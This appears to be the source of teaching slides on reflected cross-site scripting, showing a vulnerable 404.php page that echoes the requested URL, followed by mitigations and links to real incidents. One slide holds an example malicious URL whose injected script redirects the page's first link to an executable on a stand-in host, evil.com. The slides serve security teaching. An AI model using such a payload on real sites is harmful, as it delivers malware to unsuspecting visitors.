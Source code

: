 <section>

<h3>404.php</h3>

<pre><code data-trim class="html">
<page>
	<p>Sorry the following url 
	could not be found: $url</p>
</page>
</code></pre>

Again a hacker could pass a malicious URL such as: <pre><code data-trim class="html">http://vulnerable.com/<script> window.onload = 
function() { var links = document.getElementsByTagName("a");
links[0].href = "http://evil.com/malicious.exe"; }
</script></code></pre>

(Notice how a vulnerable URL parameter isn't required in this example)

</section>

<section>

<h3>404.php</h3>

<pre><code data-trim class="html">
<page>
	<p>Sorry the following url 
	could not be found: <script> ... </script></p>
</page>
</code></pre>

When a user visits the malicious URL it is rendered as above, leading to the script to replace the first link on the page to download malicious.exe, instead of its normal functionality

</section>

<section data-markdown>

### Mitigating Reflected XSS

For the common user:
- Common sense
- Don't click random, suspicious links in emails, social media, forums

For the website owner:
- URL Sanitisation
- More generally, never directly return user entered information

</section>

<section data-markdown>

### Real world examples

- [XSS on Twitter](https://www.theguardian.com/technology/2014/jun/11/twitter-tweetdeck-xss-flaw-users-vulnerable)
- [Script injection used for crypto-mining](https://www.theregister.co.uk/2018/01/27/cryptojackers_slip_coinhive_mining_code_into_doubleclick_ads/)

</section>

<section data-markdown>

## Fin

</section>
